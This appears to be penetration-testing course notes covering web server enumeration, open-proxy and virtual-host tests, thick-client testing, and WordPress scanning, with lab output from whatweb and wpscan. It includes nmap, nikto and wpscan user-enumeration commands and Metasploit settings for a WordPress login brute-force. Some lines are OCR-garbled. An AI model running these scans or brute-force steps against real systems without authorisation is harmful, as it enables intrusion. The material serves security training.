HTTP has eight methods namely OPTIONS, GET, HEAD, POST, PUT, DELETE, TRACE, and CONNECT. Developers use these methods in the deployment and testing of web applications. Attackers can use these methods to perform malicious activities on the server if the developers have configured them improperly.

Penetration testers must check if the web application has any improperly configured methods such as HTTP request or dangerous HTTP methods that attackers can exploit to compromise the web application. Check for enabled Web-based Distributed Authoring and Versioning (WebDAV) methods that assist in testing the web browser.

You can use tools, such as Nmap, Burp Suite or Paros Proxy, to capture HTTP requests made by web applications. You can also use the following command in the Parrot terminal:

```
nmap -p 443, 80 --script http-methods, http-trace -script-args http-methods.test-all=true <Website URL>
```



### Enumerate Webserver Directories
- Try to discover the interesting files and folders on Web Server using Nmap

- Use the following Nmap script to enumerate directories

  ```
  nmap --script http-enum.nse [host]
  ```

Enumerating the target server for interesting files and directories is one of the primary tasks in web application penetration testing. For this task we use the Nmap tool which scans the target webserver using a fingerprint file (.nse — nmap script engine) that matches with the server. The syntax of the nmap command that is shown below uses the fingerprint file http-enum.nse. The scanning lists the applications and their versions from the target webserver as a result. 

Use the following nmap script to enumerate directories:

#### Nmap

```
nmap --script http-enum.nse [host]
```


**Parrot has several tools for enumerating directories**

#### wfuzz

#### dirbuster


### Test for Proxy Functionality
- Test whether the web server can act as a proxy and can be used it to connect and retrieve information from different servers on the Internet using GET and CONNECT requests
- Test whether you can connect to different ports and IP addresses in the target hosting environment using GET and CONNECT requests
- Test whether you can connect to common port numbers on the webserver using 127.0.01 as a target host in request

Administrators configure web servers to act as forward proxy servers, which attackers can perform various attacks. They can send malicious traffic to third-party systems that appears to be from the proxy server and use the servers to bypass authentication and the firewall of the web application. Attackers abuse web application servers as open proxy servers to access third party website without revealing their true location.

You must test whether the target web server can act as a proxy and if the users can use it to connect and retrieve information from different servers using GET and CONNECT requests. Test if the web servers act as an open proxy by trying to connect to different ports and IP addresses in the target hosting environment using GET and CONNECT requests. Test whether you can connect to common port numbers on the webserver using 127.0.01 as a target host in request. 

You can also use tools such as nmap with the following command syntax to find if the web servers
act as open proxy:

```
nmap -sS -sV -p 8080 --script http-open-proxy.nse <Server IP Address>
```

### Test for Virtual Hosting Misconfiguration
1. Check for any common configuration errors in the hosting environment
2. Check the HTTP requests that connect to the root directory and compare the results
3. Use proxy scanning tools to identify the results and find default content and directory listings

Improper configuration of web applications can help attackers to exploit the weakness to perform information and code disclosure, denial of service and application compromise attacks. You must check the web application for any misconfigurations in the hosting environment. Check the HTTP requests that connect to the root directory and compare the results. Use proxy scanning tools to identify the results and find default content and directory listings.

Test the target web application by sending the GET request to the root directory in the following
four cases:

- Using correct Host Header

- Using bogus Host Header

- Using IP address of server in Host Header

- Using no value for Host Header

Compare the results of these requests to find the configuration details of the web application. If   you use an IP address in the Host header, the server must respond with a directory listing and   will also provide details of all the accessible content. If the web application responds with other   details, then map the web application using the Host header that generated different results.

You can also use the Nikto scan with the -vhost option to identify any default content overlooked   during initial application mapping.

**Syntax:** 

```
perl nikto.pl -vhost <Target URL>
```

### Test for Web Server Software Bugs

- Use web vulnerability scanning tools, such as Nessus, Netsparker, SAINT, etc., to find any vulnerabilities in the host web server

Test the target web server for software vulnerabilities using vulnerability scanners such as Nessus, OpenVAS, Netsparker, SAINT, etc.

#### Netsparker

Source: https://www.netsparker.com
Netsparker finds and reports web application vulnerabilities such as SQL Injection and Cross-site Scripting (XSS) on all types of web applications, regardless of the platform and technology they are built with. Netsparker’s unique and dead accurate Proof-Based Scanning Technology does not just report vulnerabilities, it also produces a Proof of Concept to confirm they are not false positives. Freeing you from having to double check the identified vulnerabilities.


#### SAINT

Source: https://www.saintcorporation.com

Asa vulnerability assessment solution, SAINT’s security research and development efforts focus on investigation, triage, prioritization and coverage of vulnerabilities of the highest severity and importance to our customers.



### Web Sever Vulnerability Scanner: NIKTO
- Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web
  servers for multiple items, including over 6400 potentially dangerous files/CGls, checks for outdated
  versions of over 1200 servers, and version specific problems on over 270 servers

- It also checks for server configuration items such as the presence of multiple index files, HTTP
  server options, and will attempt to identify installed web servers and software

- Scan items and plugins are frequently updated and can be automatically updated

Features:

- Identify the installed web server

- Identify the version of web server software

- Detect the server misconfigurations


## Test for Thick Clients Vulnerabilities

The thick clients are applications that users can install on their devices and request to connect with the server when required. You cannot test these applications as regular web applications, but require a different procedure to test them. This section discusses about the methods of testing thick client applications to find vulnerabilities.

### Pen Testing Thick Clients
- Thick client applications are developed using .NET,C /C++, Microsoft Silverlight, Java applets etc.
- Penetration testing of Thick clients is different from normal web application (thin clients) penetration testing because of their functionality differences

The thick clients refer to the applications installed and run on the client-side systems. They connect to the web server whenever requested to establish a communication. Thick client application development involves various technologies such as .NET,C /C++, Microsoft Silverlight, Java, HTML, AJAX, etc. Penetration testing of Thick clients is different from normal web application (thin clients) penetration testing because of their functionality differences.

**Common vulnerabilities found in thick clients include:**

- Injection attacks

- Variable manipulation

- Response manipulation

- Improper error handling

- Insecure storage

- Sensitive data disclosure

- Denial of Service (DoS)

- Improper access control

- Improper session management

- Reverse engineering.

There are three types of testing that a penetration tester should perform in order to perform 

**Thick client penetration testing:**

- Dynamic Testing
- System Testing
- Static Testing

#### Dynamic Testing
In this type of testing , pen tester should perform activities like fuzzing, trafficinterception and analysis, injection in order to check the thick client against injection attacks Use tools, such as Burp Suite, Fiddler, Echo, Mirage, Charles, Mallory, JavaSnoop, TCPDump, and Wireshark, to perform this type of testing

To test the data of the thick-client application, that is transferring from the client to the server, we perform dynamic testing. In this type of testing, the pen tester should perform activities like fuzzing, traffic interception and analysis, injection in order to check the thick client against injection attacks. Different phases of web application penetration testing that require dynamic testing are as follows.

- **Input Validation**: This test includes testing the client against all injection-based attacks such as SQL injection, LDAP injection, command injection, etc. are performed in this phase to check the vulnerabilities in thick-client applications while validating the user data.
- **File Upload**: You must test the thick-client application to check whether it exhibits any file upload vulnerabilities, such as accepting files that could lead to security threat.
- **Buffer Overflow**: Test the user input data handling mechanism by injecting large volume of data into user input fields.
- **SSL or TLS**: Test if the application uses secure transport layer protocols for transmission of data over the Internet.
- **Business Logic**: This includes testing of user authorization and authentication, as well as escalation privileges between users.
- **Improper Error Handling**: Check the process of error handling mechanism used by the application and its efficiency. Identify the information type the client reveals to the end user through error messages.

- **Broken Authentication and Session Management**: In this phase, test the thick-client application for proper session management functions and check if it is vulnerable to broken authentication attacks.

Use tools, such as Burp Suite, Fiddler, Echo, Mirage, Charles, Mallory, JavaSnoop, TCPDump, and Wireshark, to perform this type of testing.

#### System Testing
1. In this type of testing, pen tester should analyz the local storage for sensitive data leakage. Check whether the application is storing any sensitive information, such as username, passwords, database credentials, hcense deal, cryptographic keys, and configuration detals ke IP address, port, et) in the computer without the users Knowledge
2. Check local storage, such as fle, registries, process, temp folder, application folder used by the thick clents
3. Use tools, such as Process Monitor, inorder to monitor Windows real-time fle system, registry and process/thread activity
4. Perform Memory Analysis in order to analyze the entire memory content used by the application using memory reading tools, such as Winhex, Tsearch, Userdump, etc.

System testing refers to the process of performing penetration tests of the system to determine the test if any of its vulnerabilities would result in compromise of thick client application running on it. You can do this by testing the application data, processes and services running, DLLs associated with the processes and application privileges implemented.

In this type of testing, the pen tester should analyze the local storage for sensitive data leakage. Check whether the application is storing any sensitive information such as username, passwords, database credentials, license details, cryptographic keys, and configuration details like IP address, port, etc.) in the computer without the user’s knowledge. Check local storage such as files, registries, process, temp folder, application folder used by the thick clients.

Use tools such as Process Monitor to analyze Windows real-time file system, registry and process/thread activity. Analyze the entire memory content used by the application using memory reading tools such as Winhex, Tsearch Userdump, etc.

The system testing comprises of the following phases.

- **Sensitive Data in Process Memory**: Test the system to determine the thick-client data it stores and check if it stores the data in plain text or encrypted forms. You can also check if the system levies any privilege-based accesses on the data. Use hex editor tools such as WinHex to analyze and recover the data.
- **Dependencies in Process**: Some thick-client applications use different libraries and executables for interacting with other applications or servers to utilize certain services. Test the client machine for all the dependencies as they could include backdoor agents.

- **Test the Application Privilege Levels**: Test the system for privileges it provided to the thick-client application, as the application running with system privileges might be vulnerable to DLL hijacking and execution of commands on the application.
- **DLL Hijacking**: Identify all the DLL and exe files the application requires to run on the system. Test if the thick-client validates these DLL and exe files prior to execution by using the process monitor tools. To perform thorough analysis, replace the DLL and exe files with modified ones and check if the application accepts them.

#### Static Testing
- Analyze application configuration files for misconfigurations, URL, Server credentials/ Cryptographic keys/Hardcoded passwords, etc.
- Use static analysis tools, such as System Internals ( Process Monitor, Regedit, Regshot, AccessEnum), CFF Explorer, etc.
- Perform reverse engineering by using tools, such as Java Byte Code Editor, JD GUI, Ollydbg to decompile exe's/ jar files

Static testing refers to the process of examining the installation files of a thick-client to identify any malicious code, erroneous processes in decompilation and encryption, and check the integrity of the code. The penetration testers must analyze application configuration files for misconfigurations, URL, Server credentials/ Cryptographic keys/Hardcoded passwords, etc. 

You can use static analysis tools such as Process Monitor, Regedit, Regshot, AccessEnum, CFF Explorer, etc. You must perform reverse engineering of the application executables using tools such as Java Byte Code Editor, JD GUI, Ollydbg to decompile exe’s/jar files. 

Different phases of static testing include the following.

- **Testing Configuration Files**: Test the application’s configuration files for sensitive information such as server credentials, cryptographic keys, etc. Verify if the application stores the configuration files in encrypted form.
- **Source Code Decompilation**: The source code of an application might contain hardcoded data such as cryptographic keys and other sensitive information, which attackers can modify and recompile using the executables. Check if the target application allows users to decompile the source code.
- **Test Application’s Encryption**: Test the target for obtaining information about the encryption mechanism used and the location of decryption keys.

## Wordpress Testing

### wpscan
- Wordpress vulnerability scanner
- Can use for enumeration
  - Version
  - Users
  - Plugins
  - Themes




### Enumerate wpscan data

- Users

  ```
  wpscan --url <target> --enumerate u
  ```

- Plugins

  ```
  wpscan --url <target> --enumerate p
  ```

- Themes

  ````
  wpscan --url <target> --enumerate t
  ````


### Wordpress Enumeration in Metasploit
- Scanner module for login enumeration
- Use auxiliary/scanner/http/wordpress_login_enum

**Login Module Options**


**Module Settings**

- set RHOSTS <target>
- set PASS_FILE /root/Wordlists/Passwords.txt
- set USER_FILE /root/Wordlists/Usernames.txt
- set STOP_ON_SUCCESS true


## Document the Result
Note the weaknesses found with respect to web application security frame.


## Lab 1

Gathering information about a target  using whatweb

```
#whatweb http://www.certifiedhacker.com
http://www.certifiedhacker.com [200 OK] Country[UNITED STATES][US], HTTPServer[nginx/1.19.10], IP[162.241.216.11], JQuery[1.4], Meta-Author[Parallelus], PasswordField[RevealPassword], Script[text/javascript], Title[Certfied Hacker], UncommonHeaders[host-header,x-server-cache,x-proxy-cache], nginx[1.19.10]
```

**Verbose**

```
#whatweb -v http://www.certifiedhacker.com
WhatWeb report for http://www.certifiedhacker.com
Status    : 200 OK
Title     : Certfied Hacker
IP        : 162.241.216.11
Country   : UNITED STATES, US

Summary   : HTTPServer[nginx/1.19.10], JQuery[1.4], Meta-Author[Parallelus], nginx[1.19.10], PasswordField[RevealPassword], Script[text/javascript], UncommonHeaders[host-header,x-server-cache,x-proxy-cache]

Detected Plugins:
[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	String       : nginx/1.19.10 (from server string)

[ JQuery ]
	A fast, concise, JavaScript that simplifies how to traverse 
	HTML documents, handle events, perform animations, and add 
	AJAX. 

	Version      : 1.4
	Website     : http://jquery.com/

[ Meta-Author ]
	This plugin retrieves the author name from the meta name 
	tag - info: 
	http://www.webmarketingnow.com/tips/meta-tags-uncovered.html
	#author

	String       : Parallelus

[ PasswordField ]
	find password fields 

	String       : RevealPassword (from field name)

[ Script ]
	This plugin detects instances of script HTML elements and 
	returns the script language/type. 

	String       : text/javascript

[ UncommonHeaders ]
	Uncommon HTTP server headers. The blacklist includes all 
	the standard headers and many non standard but common ones. 
	Interesting but fairly common headers should have their own 
	plugins, eg. x-powered-by, server and x-aspnet-version. 
	Info about headers can be found at www.http-stats.com 

	String       : host-header,x-server-cache,x-proxy-cache (from headers)

[ nginx ]
	Nginx (Engine-X) is a free, open-source, high-performance 
	HTTP server and reverse proxy, as well as an IMAP/POP3 
	proxy server. 

	Version      : 1.19.10
	Website     : http://nginx.net/

HTTP Headers:
	HTTP/1.1 200 OK
	Date: Tue, 14 Sep 2021 04:00:22 GMT
	Server: nginx/1.19.10
	Content-Type: text/html
	Content-Length: 3228
	Last-Modified: Thu, 10 Feb 2011 11:01:38 GMT
	Vary: Accept-Encoding
	Content-Encoding: gzip
	host-header: c2hhcmVkLmJsdWVob3N0LmNvbQ==
	X-Server-Cache: true
	X-Proxy-Cache: HIT
	Accept-Ranges: bytes
```

**Create a file report**

```
#whatweb --log-verbose=certifiedharcker_report http://www.certifiedhacker.com
http://www.certifiedhacker.com [200 OK] Country[UNITED STATES][US], HTTPServer[nginx/1.19.10], IP[162.241.216.11], JQuery[1.4], Meta-Author[Parallelus], PasswordField[RevealPassword], Script[text/javascript], Title[Certfied Hacker], UncommonHeaders[host-header,x-server-cache,x-proxy-cache], nginx[1.19.10]
```

## Lab 2

**Web Application vulnerability assessment using Vega**

Install Vega

1. java -version 

2. sudo update-alternatives --config java 

   ```
   $sudo update-alternatives --config java 
   [sudo] password for sherwinowen: 
   There are 2 choices for the alternative java (providing /usr/bin/java).
   
     Selection    Path                                            Priority   Status
   ------------------------------------------------------------
     0            /usr/lib/jvm/java-11-openjdk-amd64/bin/java      1111      auto mode
     1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java      1111      manual mode
   * 2            /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java   1081      manual mode
   
   Press <enter> to keep the current choice[*], or type selection number: 
   ```

3. nano /etc/apt/sources.list 

4. deb http://cz.archive.ubuntu.com/ubuntu bionic main universe

5. sudo apt-get update 

6. sudo apt-get install libwebkitgtk-1.0-0 

7. ./Vega

## Lab 3

**Pentesting Identified Web Application Vulnerabilities**


## Lab 5

**Exploiting directory traversal vulnerability in wordpress applications**

**Enumerate plugins**

```
#wpscan --url [URL Address] --enumerate p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: [URL] [IP Address]
[+] Started: Wed Sep 15 20:38:08 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Robots-Tag: noarchive, nosnippet, nofollow
 |  - X-UA-Compatible: IE=Edge,chrome=1
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
```


## Lab 6

**Performing Dictionary Attack on Wordpress web app using Burp Suite**


### Lab 7

Exploiting Wordpress Web Applications by uploading a customized shell

